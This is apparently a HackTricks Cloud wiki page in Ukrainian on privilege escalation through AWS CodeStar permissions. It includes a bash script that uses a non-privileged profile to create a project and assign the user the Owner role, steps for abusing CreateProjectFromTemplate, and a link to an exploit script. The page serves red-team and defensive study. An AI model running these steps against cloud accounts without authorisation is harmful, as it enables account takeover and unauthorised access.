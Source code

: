 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

Ви можете знайти більше інформації про codestar у:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

З цими дозволами ви можете **зловживати роллю IAM codestar** для виконання **произвольних дій** через **шаблон cloudformation**. Перевірте наступну сторінку:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Ця техніка використовує `codestar:CreateProject` для створення проекту codestar, і `codestar:AssociateTeamMember` для того, щоб зробити користувача IAM **власником** нового проекту CodeStar, що надасть їм **нову політику з кількома додатковими дозволами**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Якщо ви вже є **учасником проекту**, ви можете використовувати дозвіл **`codestar:UpdateTeamMember`** для **оновлення вашої ролі** на власника замість `codestar:AssociateTeamMember`.

**Потенційний вплив:** Privesc до політики codestar, що була згенерована. Ви можете знайти приклад цієї політики в:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Створити новий проект:**
* Використовуйте дію **`codestar:CreateProjectFromTemplate`** для ініціювання створення нового проекту.
* Після успішного створення доступ автоматично надається для **`cloudformation:UpdateStack`**.
* Цей доступ специфічно націлений на стек, пов'язаний з роллю IAM `CodeStarWorker-<generic project name>-CloudFormation`.
2. **Оновити цільовий стек:**
* З наданими дозволами CloudFormation, продовжте оновлення вказаного стеку.
* Ім'я стека зазвичай відповідатиме одному з двох шаблонів:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* Точне ім'я залежить від вибраного шаблону (посилаючись на приклад експлойт-скрипта).
3. **Доступ і дозволи:**
* Після оновлення ви отримуєте можливості, призначені для **CloudFormation IAM ролі**, пов'язаної зі стеком.
* Примітка: Це не надає автоматично повних адміністративних привілеїв. Додаткові неправильно налаштовані ресурси в середовищі можуть бути необхідні для подальшого підвищення привілеїв.

Для отримання додаткової інформації перевірте оригінальне дослідження: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Ви можете знайти експлойт за адресою [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**Потенційний вплив:** Privesc до ролі cloudformation IAM.

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
